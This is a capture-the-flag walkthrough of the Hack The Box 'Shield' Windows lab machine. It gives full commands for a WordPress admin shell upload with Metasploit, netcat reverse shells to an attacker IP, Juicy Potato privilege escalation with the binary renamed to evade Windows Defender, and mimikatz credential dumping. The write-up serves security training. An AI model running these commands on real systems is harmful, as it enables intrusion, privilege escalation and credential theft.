 Hack The Box :: Starting Point :: Shield :: Windows

# Enumeration

**Note**: this starting point machine only features a `root.txt`
We begin by running an Nmap scan.
`nmap -A -v 10.10.10.29 -p-`

From the Nmap output, we find that IIS and MySQL are running on their default ports. IIS (Internet Information Services) is a Web Server created by Microsoft.

[nmap.webp](../_resources/2a0962347e20870a1917257f7c3f8bf1.webp)

Let's navigate to port 80 using a browser.

[web.webp](../_resources/f903babba561c9c00f538bac305132d6.webp)

We see the default IIS starting page.

## GoBuster

Let's use GoBuster to scan for any sub-directories or files that are hosted on the server.

`gobuster dir -u http://10.10.10.29/ -w /usr/share/wordlists/dirb/common.txt`

[gobuster.webp](../_resources/cd040fd82f5fff5e22643725b43e520c.webp)

The scan reveals a folder named `wordpress`. Let's navigate to it (http://10.10.10.29/wordpress).

# Foothold

## WordPress

WordPress is a Content Management System (CMS) that can be used to quickly create websites and blogs. Since we have already acquired the password `P@s5w0rd!`, we can try to login to the WordPress site. We navigate to http://10.10.10.29/wordpress/wp-login.php and try to guess the username. Some common usernames are `admin` or `administrator`. The combination `admin : P@s5w0rd!` is successful and we gain administrative access to the site.

The administrative access can be leveraged through the msfmodule `exploit/unix/webapp/wp_admin_shell_upload`, to get a meterpreter shell on the system.

	msfconsole
	msf > use exploit/unix/webapp/wp_admin_shell_upload
	msf > set PASSWORD P@s5w0rd!
	msf > set USERNAME admin
	msf > set TARGETURI /wordpress
	msf > set RHOSTS 10.10.10.29
	msf > run

A netcat binary is uploaded to the machine for a more stable shell.

## Netcat

Let's use the following commands:
`msf > lcd /home/username/Downloads`

lcd stands for "Local Change Directory", which we use to navigate to the local folder where nc.exe is located.

	msf > cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
	msf > upload nc.exe

We then navigate to a writeable directory on the server (in our case `C:/inetpub/wwwroot/wordpress/wp-content/uploads`) and upload netcat. Let's start a netcat listener:

`nc -lvp 1234`

Next, we can execute the following command in the meterpreter session to get a netcat shell:

`msf > execute -f nc.exe -a "-e cmd.exe 10.10.14.2 1234"`

# Privilege Escalation

Running the `sysinfo` command on the meterpreter session, we notice that this is a Windows Server 2016 OS, which is vulnerable to the [Rotten Potato](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) exploit.

## Juicy Potato

Juicy Potato is a variant of the exploit that allows service accounts on Windows to escalate to SYSTEM (highest privileges) by leveraging the BITS and the `SeAssignPrimaryToken` or `SeImpersonate` privilege in a MiTM attack.

We can exploit this by uploading the Juicy Potato [binary](https://github.com/ohpe/juicy-potato) and executing it. As before, we can use our meterpreter shell to do the upload and then we can use the netcat shell to execute the exploit.

	msf > lcd /home/username/Downloads
	msf > upload JuicyPotato.exe

**Note**: We will have to rename the Juicy Potato executable to something else, otherwise it will be picked up by Windows Defender.

`msf > mv JuicyPotato.exe js.exe`

We can create a batch file that will be executed by the exploit, and return a SYSTEM shell. Let's add the following contents to `shell.bat`:

`echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.2 1111 > shell.bat`

Let's start another netcat listener:
`nc -lvp 1111`
Next, we execute the netcat shell using the following command.

`js.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337`

**Note**: We can use another CLSID `-c {bb6df56b-cace-11dc-9992-0019b93a3a84}`, if our payload is not working.

The root flag is located in `C:\Users\Administrator\Desktop`.

# Post Exploitation

Mimikatz can be used to dump cached passwords.
`msf > upload mimikatz.exe`
We execute mimikatz and use the sekurlsa command to extract logon passwords:

	./mimikatz.exe
	sekurlsa::logonpasswords

And we find the password `Password1234!` for domain user `Sandra`.